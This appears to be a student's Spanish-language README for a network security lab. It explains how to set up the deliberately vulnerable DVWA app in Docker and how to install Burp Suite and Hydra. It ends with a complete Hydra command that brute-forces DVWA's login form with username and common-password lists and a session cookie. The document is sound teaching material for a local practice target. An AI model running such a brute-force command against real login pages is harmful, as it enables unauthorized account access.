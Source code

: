 # Laboratorio 2 de Criptografía y Seguridad en redes

Segundo laboratorio de Tomás Díaz Calderón

- Para levantamiento de Docker, descargar carpeta de https://github.com/digininja/DVWA y escribir:

      sudo docker compose up -d
- Para la descarga de Burpsuite, ir a https://portswigger.net/burp/communitydownload
  
- Luego de descargar el archivo .sh, ingresar:
  
-     chmod +x burpsuite\_community\_linux\_v2025\_2\_4.sh
      sudo burpsuite\_community\_linux\_v2025\_2\_4.sh

- Para la descarga de Hydra, se debe ingresar:
  
-       sudo apt install hydra
  
- Para ver la versión instalada, sintaxis y opciones, basta con ingresar "hydra" en la terminal.
  
- El comando para su uso corresponde al siguiente, donde se debe reemplazar el PHPSESSID por el propio.
  
-       hydra 127.0.0.1 -s 8080 -L usuarios.txt -P 200_contrasenas_mas_usadas.txt http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=7c94922a8fce407024d5c9438fb33525; security=low; :F=Username and/or password incorrect."
  

